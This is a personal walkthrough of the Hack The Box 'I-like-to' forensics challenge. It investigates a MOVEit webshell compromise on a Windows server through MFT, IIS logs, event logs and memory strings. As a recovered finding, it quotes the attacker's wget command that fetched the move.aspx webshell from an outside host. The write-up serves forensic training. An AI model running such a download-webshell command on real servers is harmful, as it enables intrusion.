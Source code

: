 ```yaml
---
{"dg-publish":true,"permalink":"/i-like-to/"}
---
```


###### Summary: 

*I-like-to* is one of the first Sherlocks HTB has published. Despite being ranked as easy, it still provides a good learning value for a beginner. While working on this challenge, I have acquainted with MOVEit vulnerability, analysed KAPE artifacts, including MFT file, correlated data with raw hex, and answered relevant questions regarding the exploitation of the vulnerability.

###### Challenge scenario: 

"We have unfortunately been hiding under a rock and do not see the many news articles referencing the recent MOVEit CVE being exploited in the wild. We believe our Windows server may be vulnerable and has recently fallen victim to this compromise. We need to understand this exploit in a bit more detail and confirm the actions of the attacker & retrieve some details, so we can implement them into our SOC environment. We have provided you with a triage of all the necessary artefacts from our compromised Windows server. PS: One of the artifacts is a memory dump, but we forgot to include the vmss file. You might have to go back to basics here..."

###### Walkthrough:

1. *Name of the ASPX webshell uploaded by the attacker?*
	I parcelled MFT using MFTCmd and then opened it with TimeLine Explorer. The first question is to find ASPX web shell, I filtered files' extension to .aspx and the first file in the output had missing 0x30 ($Filename information) timestamp which indicates that it was likely uploaded from a different host. 
	
	Answer: move.aspx

2. *What was the attacker's IP address?*
	To find the attacker's IP address I had to find Microsoft Internet Information Service, open it with a text editor and find the uploaded file. Also, there are a lot of signs of network enumeration conducted by the threat actor. 
	
	It's worth noting that I've tried to find the IP address initially by multiplying the file's entry number by 1024 and converting it to hex, then looking for this offset number in the MFT hex dump (using HxD). Also, by running `Get-Item (file path) -Stream *` and `Get-Content`. Yet this method is more suitable for analysing Zone.Identifier data. 
	
	Answer: 10.255.254.3

3. *What user agent was used to perform the initial attack?*
	I continued investigating IIS logs and indicators of compromise for the exploit. I found one of them (machine2.aspx) in the logs and User Agent in the lines below. 
	
	Answer: Ruby

4. *When was the ASPX webshell uploaded by the attacker?*
	Using Timeline Explorer, I returned to the first file I had found, looked at its entry number and investigated its timestamps, then used MFTECmd (particular attention to $FILE_NAME or 0x30 information) to identify the time when the script was uploaded.
	
	Answer: 12/07/2023 11:24:30
	
	`.\MFTECmd -f 'C:\Users\glebas\Desktop\$MFT' --de 1293` ![Pasted image 20250210105019.png](/img/user/Pasted%20Images/Pasted%20image%2020250210105019.png)

5. *The attacker uploaded an ASP webshell which didn't work, what is its filesize in bytes?*
	Filtered MFT entries to display the same day when 'move.aspx' was uploaded. The next entry is another malicious file 'moveit.asp' and it has file size specified in the entry.
	
	Answer: 1362

6. *Which tool did the attacker use to initially enumerate the vulnerable server?*
	Numerous attempts of port enumeration using nmap can be seen in IIS and DMZ_FTP log files
	
	Answer: nmap

7. *We suspect the attacker may have changed the password for our service account. Please confirm the time this occurred (UTC)*
	Using EvtxECmd I converted directory with Windows event logs (included logs IDs related to password change 4723, 4724... etc) into a CSV file, opened it with Timeline Explorer and found there service account password attempt with ID 4724.
	
	Answer: 12/07/2023 11:09:27

8. *Which protocol did the attacker utilize to remote into the compromised machine?*
	To identify internet protocol the adversary used to connect, I had to re-process evtx logs once again including all the events this time (with the thought of the future usage). Then, I filtered events 4624 that identify successful connections and using logon type 10 is typically mark of RDP connection.
	
	Answer: RDP

9. *Please confirm the date and time the attacker remotely accessed the compromised machine*
	Timestamp can be found in previous question.
	
	Answer: 12/07/2023 11:11:18

10. *What was the useragent that the attacker used to access the webshell?*
	The user agent can be found in IIS logs, in particular near malicious files with GET or POST requests.
	
	Answer: Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0

11. *What is the inst ID of the attacker?*
    I installed MySQL server and workbench to analyse moveit.sql file and found the ID among the entries. You shall look for attacker's nickname.
    
    Answer: 1234

12. What command was run by the attacker to retrieve the webshell?
	Answer: wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx

13. *What was the string within the title header of the webshell deployed by the TA?*
	To find a header I used command `strings "C:\Users\glebas\Desktop\I-like-to-27a787c5.vmem" | Select-String "move.aspx" -Context 20, 20` -- it allows to see 20 lines above and below from the target line (move.aspx) in this case.
	
	Answer: awen asp.net webshell

14. *What did the TA change the our moveitsvc account password to?*
	I found new password by conducting strings analysis of vmem file and with the search for "net user 'moveitsvc" because password follows it
	
	Answer: 5trongP4ssw0rd


